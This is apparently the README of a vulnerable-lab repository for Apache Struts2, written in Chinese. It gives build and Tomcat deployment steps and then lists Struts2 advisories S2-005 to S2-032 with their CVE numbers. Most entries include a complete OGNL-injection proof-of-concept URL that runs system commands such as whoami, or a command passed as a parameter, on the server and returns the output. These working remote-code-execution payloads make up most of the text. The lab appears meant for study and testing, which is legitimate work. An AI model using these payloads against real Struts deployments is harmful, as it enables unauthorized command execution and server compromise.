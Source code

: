 # 环境
Requires Java 1.8+ and Maven 3.x+

# 使用方法
1.下载
git clone https://git.oschina.net/0d/Struts2_bugs.git

2.查看远程分支
git branch -a

3.切换到分支
git checkout 分支名
如git checkout S2-032

4.打包
mvn clean package

5.部署在Tomcat中
将\target中生成的Struts2-032.war复制到Tomcat下的webapps目录中，然后开启Tomcat
访问http://127.0.0.1:8080/Struts2-032/index.action

# 相关信息

1.S2-005

CVE-2010-1870

影响版本：Struts 2.0.0 – Struts 2.1.8.1 

官方公告：http://struts.apache.org/docs/s2-005.html

POC:
http://127.0.0.1:8080/Struts2-005/index.action?('\43_memberAccess.allowStaticMethodAccess')(a)=true&(b)(('\43context[\'xwork.MethodAccessor.denyMethodExecution\']\75false')(b))&('\43c')(('\43_memberAccess.excludeProperties\75@java.util.Collections@EMPTY_SET')(c))&(g)(('\43req\75@org.apache.struts2.ServletActionContext@getRequest()')(d))&(h)(('\43webRootzpro\75@java.lang.Runtime@getRuntime().exec(\43req.getParameter("cmd"))')(d))&(i)(('\43webRootzproreader\75new\40java.io.DataInputStream(\43webRootzpro.getInputStream())')(d))&(i01)(('\43webStr\75new\40byte[1000]')(d))&(i1)(('\43webRootzproreader.readFully(\43webStr)')(d))&(i111)(('\43webStr12\75new\40java.lang.String(\43webStr)')(d))&(i2)(('\43xman\75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(i2)(('\43xman\75@org.apache.struts2.ServletActionContext@getResponse()')(d))&(i95)(('\43xman.getWriter().println(\43webStr12)')(d))&(i99)(('\43xman.getWriter().close()')(d))&cmd=cmd /c whoami

2.S2-009

CVE-2011-3923

影响版本：Struts 2.0.0 -Struts 2.3.1.1

官方公告：http://struts.apache.org/docs/s2-009.html

POC:
http://127.0.0.1:8080/Struts2-009/index.action?class.classLoader.jarPath=%28%23context["xwork.MethodAccessor.denyMethodExecution"]%3d+new+java.lang.Boolean%28false%29%2c+%23_memberAccess["allowStaticMethodAccess"]%3dtrue%2c+%23a%3d%40java.lang.Runtime%40getRuntime%28%29.exec%28%27whoami%27%29.getInputStream%28%29%2c%23b%3dnew+java.io.InputStreamReader%28%23a%29%2c%23c%3dnew+java.io.BufferedReader%28%23b%29%2c%23d%3dnew+char[50000]%2c%23c.read%28%23d%29%2c%23sbtest%3d%40org.apache.struts2.ServletActionContext%40getResponse%28%29.getWriter%28%29%2c%23sbtest.println%28%23d%29%2c%23sbtest.close%28%29%29%28meh%29&z[%28class.classLoader.jarPath%29%28%27meh%27%29]

3.S2-013

CVE-2013-1966

影响版本：Struts 2.0.0 – Struts 2.3.14

官方公告：http://struts.apache.org/docs/s2-013.html

POC:
http://127.0.0.1:8080/Struts2-013/index.action?a=1${(%23_memberAccess["allowStaticMethodAccess"]=true,%23a=@java.lang.Runtime@getRuntime().exec('whoami').getInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char[50000],%23c.read(%23d),%23sbtest=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23sbtest.println(%23d),%23sbtest.close())}

4.S2-016 

CVE-2013-2251

影响版本：Struts 2.0.0 – Struts 2.3.15

官方公告：http://struts.apache.org/docs/s2-016.html

POC:
http://127.0.0.1:8080/Struts2-016/index.action?redirect:$%7B%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String%5B%5D%20%7B'whoami'%7D)).start(),%23b%3d%23a.getInputStream(),%23c%3dnew%20java.io.InputStreamReader%20(%23b),%23d%3dnew%20java.io.BufferedReader(%23c),%23e%3dnew%20char%5B50000%5D,%23d.read(%23e),%23matt%3d%20%23context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),%23matt.getWriter().println%20(%23e),%23matt.getWriter().flush(),%23matt.getWriter().close()%7D

5.S2-019

CVE-2013-4316

影响版本：Struts 2.0.0 – Struts 2.3.15.1

官方公告：http://struts.apache.org/docs/s2-019.html

POC:
http://127.0.0.1:8080/Struts2-019/index.action?debug=command&expression=%23f=%23_memberAccess.getClass().getDeclaredField('allowStaticMethodAccess'),%23f.setAccessible(true),%23f.set(%23_memberAccess,true),%23req=@org.apache.struts2.ServletActionContext@getRequest(),%23resp=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23a=(new java.lang.ProcessBuilder(new java.lang.String[]{'whoami'})).start(),%23b=%23a.getInputStream(),%23c=new java.io.InputStreamReader(%23b),%23d=new java.io.BufferedReader(%23c),%23e=new char[1000],%23d.read(%23e),%23resp.println(%23e),%23resp.close()


6.S2-020

CVE-2014-0094

影响版本：Struts 2.0.0 – Struts 2.3.16

官方公告：http://struts.apache.org/docs/s2-020.html

POC:暂无


7.S2-032

CVE-2016-3081

影响版本：Struts 2.3.18 – Struts 2.3.28 

官方公告：http://struts.apache.org/docs/s2-032.html

POC:
http://127.0.0.1:8080/Struts2-032/index.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding[0]),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd[0]).getInputStream()).useDelimiter(%23parameters.pp[0]),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp[0],%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&cmd=whoami&pp=\\A&ppp=%20&encoding=UTF-8


